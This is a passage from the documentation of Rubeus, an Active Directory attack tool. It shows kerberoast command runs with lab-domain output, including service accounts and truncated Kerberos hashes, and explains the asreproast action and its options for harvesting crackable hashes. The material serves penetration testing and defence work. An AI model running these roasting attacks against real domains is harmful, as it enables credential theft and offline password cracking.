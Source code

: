       v1.0.0

    [*] Action: Kerberoasting

    [*] SamAccountName         : testuser2
    [*] DistinguishedName      : CN=testuser2,OU=TestingOU,DC=testlab,DC=local
    [*] ServicePrincipalName   : service/host
    [*] Hash                   : $krb5tgs$5$*$testlab.local$service/host*$95160F02CA8EB...(snip)...

    ...(snip)...


    C:\Rubeus>Rubeus.exe kerberoast /outfile:hashes.txt

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.3.2

    [*] Action: Kerberoasting

    [*] SamAccountName         : harmj0y
    [*] DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
    [*] ServicePrincipalName   : asdf/asdfasdf
    [*] Hash written to C:\Temp\hashes.txt


    [*] SamAccountName         : sqlservice
    [*] DistinguishedName      : CN=SQL,CN=Users,DC=testlab,DC=local
    [*] ServicePrincipalName   : MSSQLSvc/SQL.testlab.local
    [*] Hash written to C:\Temp\hashes.txt

    ...(snip)...


## asreproast

The **asreproast** action replaces the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast/) project which executed similar actions with the (larger sized) [BouncyCastle](https://www.bouncycastle.org/) library. If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting.

With no other arguments, all user accounts with Kerberos preauth not required are roasted. The /user:X argument roasts just the specified user, and the /ou:X argument roasts just users in the specific OU. The /domain and /dc arguments are optional, pulling system defaults as other actions do.

The /outfile:FILE argument outputs roasted hashes to the specified file, one per line.

Also, if you wanted to use alternate domain credentials for roasting, that can be specified with /creduserDOMAIN.FQDN\USER /credpassword:PASSWORD.
